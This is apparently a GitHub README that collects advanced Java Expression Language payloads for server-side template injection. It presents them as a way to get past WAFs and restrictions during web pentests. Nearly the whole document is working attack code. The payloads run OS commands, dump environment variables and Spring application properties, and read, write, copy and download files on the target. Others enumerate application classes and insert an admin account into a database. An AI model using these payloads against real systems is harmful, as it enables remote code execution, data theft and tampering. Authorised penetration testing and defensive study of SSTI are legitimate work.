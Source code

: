 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

### Notes about custom payloads writing:
1) If you able to use *T(...).method()* - use it
2) If not - you need to invoke this method by finding it using
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethod('methodName',arg1_class,arg2_class, ...)
```
3) It's better to get the method using the method described above, but its also possible to use:
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethods()[number_of_you_method]
```
4) If method is static, first arg for .invoke will be null (or "")
5) You can find necessery class for method using `"".getClass().forName("arg1_class")`, examples:
``` java
"".getClass().forName("java.net.URI") // for java.net.URI
"".getClass() // for java.net.String
"".getClass().forName("[B") // for array of java.net.Byte
```
also check [Documentation](https://docs.oracle.com/javase/tutorial/reflect/class/classNew.html)

6) pay attention to single and double quotes and change if necessary


## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
```
## Spring properties
```Java
T(org.springframework.core.io.support.PropertiesLoaderUtils).loadAllProperties("application.properties").toString()

"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output (bytes)
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```
## Reading command output (strings)
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance("".class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("whoami").getInputStream().readAllBytes())
```

## Get current path
```java
(new java.io.File("./")).getAbsolutePath()
("".getClass().forName("java.io.File").getConstructor("".getClass())).newInstance("./").getAbsolutePath()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

### Notes about files
**java.net.URI** for working with files on linux is **file:///**etc/passwd 

## Download files
```java
T(java.nio.file.Files).copy(new java.net.URL("http://127.0.0.1:8888/test.txt").openStream(),"".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke(null,"C:/Windows/Temp/test3.txt",new String[]{}))
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

// java.nio.file.Files.readdAllLines(java.net.URI)
T(java.nio.file.Files).readAllLines("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

//java.lang.String( (java.net.URL).openStream().readAllByte() )
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())
new java.lang.String(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())

```
## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllBytes("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

```

## Copy Files
```java
T(java.nio.file.Files).copy("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe_copy.txt")), new java.nio.file.CopyOption[] {"".getClass().forName("java.nio.file.StandardCopyOption").getField("REPLACE_EXISTING").get(null)})
```

## List packages
```java
T(java.util.Arrays).toString("".getClass().forName("java.lang.Package").getMethod("getPackages").invoke(""))

"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```

## Data Base - Insert
```java
//NOTE: you need to URL encode '&' in db connection string, result will be 500, thats ok 
T(java.sql.DriverManager).getConnection('jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword').createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")

"".getClass().forName("java.sql.DriverManager").getMethod("getConnection","".getClass()).invoke(null,"jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword").createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")
```

## HTTP Request - GET with response
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("http://google.com").openStream().readAllBytes())
```
